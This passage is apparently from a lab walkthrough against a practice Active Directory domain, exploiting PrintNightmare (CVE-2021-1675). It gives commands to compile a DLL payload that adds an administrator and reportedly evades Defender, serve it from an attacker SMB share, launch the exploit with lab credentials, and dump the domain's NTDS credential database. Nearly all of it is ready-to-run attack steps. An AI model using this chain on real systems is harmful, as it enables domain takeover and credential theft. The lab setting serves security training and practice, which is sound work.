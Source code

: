 ```C++
    return CreateAdminUserInternal();
}
```

- With this payload we can bypass defender and add our user as administrator
- compile
```
x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32
```


- prepare the share
```
impacket-smbserver.py -smb2support ATTACKERSHARE .
```

- relaunch the exploit
```
python3 CVE-2021-1675.py north.sevenkingdoms.local/jon.snow:'iknownothing'@winterfell.north.sevenkingdoms.local '\\192.168.56.118\ATTACKERSHARE\pnightmare2.dll'
```
![screenshot](pics/adduser_north.sevenkindom.png)

- And enjoy your new admin account by dumping the ntds :)

```
nxc smb winterfell.north.sevenkingdoms.local -u pnightmare2 -p 'Test123456789!' -M ntdsutil
```
![screenshot](pics/ntdsutil.png)
